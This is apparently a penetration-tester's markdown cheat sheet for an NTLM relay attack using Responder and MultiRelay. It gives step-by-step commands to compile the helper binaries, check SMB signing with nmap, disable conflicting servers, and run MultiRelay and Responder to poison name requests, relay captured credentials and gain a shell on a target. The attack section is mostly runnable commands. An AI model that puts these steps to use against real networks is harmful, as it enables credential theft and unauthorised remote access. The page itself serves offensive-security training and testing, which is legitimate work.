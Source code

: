 # NTLM relay attack

## Attack tree

```text
1 Set up MultiRelay
2 Run responder
3 Wait for it
```

## Examples

1. Install dependencies and compile some artifacts used by Multirelay:

```text
# apt install gcc-mingw-w64-x86-64 python-crypto
# cd /usr/share/responder/tools/
# x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv                                                                                                         
# x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
# pip install pycryptodome
```

2. Test with:

```text
# cd /usr/share/responder/tools
# python3 MultiRelay.py
```

3. For this attack to work with SMB, SMB signing has to be disabled on the target. Usually it is disabled, but this can be
checked using the nmap `smb-security-mode` script:

```text
# nmap -p445 --script=smb-security-mode <target IP address>
```

4. The MultiRelay script uses HTTP and SMB ports. To prevent conflicts, turn these servers off in the 
`/usr/share/responder/responder.conf` file.

```text
SMB = Off
HTTP = Off
```

5. If SMB signing is disabled, run MultiRelay with (`-t`) to specify the target and (`-u`) to specify users to 
relay (forward) to. Choose selectively to create minimal noise in the network.

```text
# python3 MultiRelay.py -t <target IP address> -u ALL -d
```

6. In another terminal, use `ifconfig` to find NIC <interface> of attack machine for running responder.
7. Run responder:

```text
# cd Responder
# responder -I <interface> -rv
```
8. Wait for a connection: Hopefully, someone mistypes trying to open a shared drive (a drive that does not exist). 
Responder intervenes and poisons the request. SMB relaying is now setup in `MultiRelay.py`, and the credential is 
forwarded to the <target IP address> and we have gained a shell on it.

## Notes

If it is possible to poison responses but not possible to crack the hash, an option is to try to relay. A relay or 
forwarder receives valid authentication and then forwards that request to another server/system and 
tries to authenticate to that server/system by using the valid credentials received.

* Activity can vary wildly depending on the network. 
* Inactive networks can take days or weeks before a connection can be hijacked. 
* Logs are created in `/usr/share/responder/logs` where you can look past sessions captured. 
* MultiRelay runs mimikatz by default and may be easily flagged by antivirus products. 
* The attacks described here should only be performed when explicitly authorised to do so. 

## Tools

* [Responder](https://github.com/lgandx/Responder)
* [smb-security-mode](https://nmap.org/nsedoc/scripts/smb-security-mode.html)
